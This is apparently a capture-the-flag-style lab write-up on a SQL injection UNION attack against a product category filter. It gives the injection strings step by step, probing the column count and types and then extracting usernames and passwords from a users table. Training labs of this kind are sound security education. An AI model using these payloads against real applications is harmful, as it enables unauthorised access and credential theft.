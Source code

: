# SQL injection UNION attack, retrieving multiple values in a single column
# Objective
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.\
\
The database contains a different table called users, with columns called username and password.\
\
To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

# Solution
`/filter?category=’` —> Application is vulnerable 

## Determining the number of columns
`/filter?category=Pets' order by 1--` \
`/filter?category=Pets' order by 2--` \
`/filter?category=Pets' order by 3--` -> Error \
`/filter?category=Pets' union select null, null--` -> Number of columns = 2

## Determining the types of columns
`/filter?category=Pets' union select 'a', 'a'--` -> Error \
`/filter?category=Pets' union select 1, 'a'--` -> First column - int, second - string

## Retrieving usernames and passwords
Credentials (user~pass) \
`/filter?category=' union select null, username || '~' || password from users--`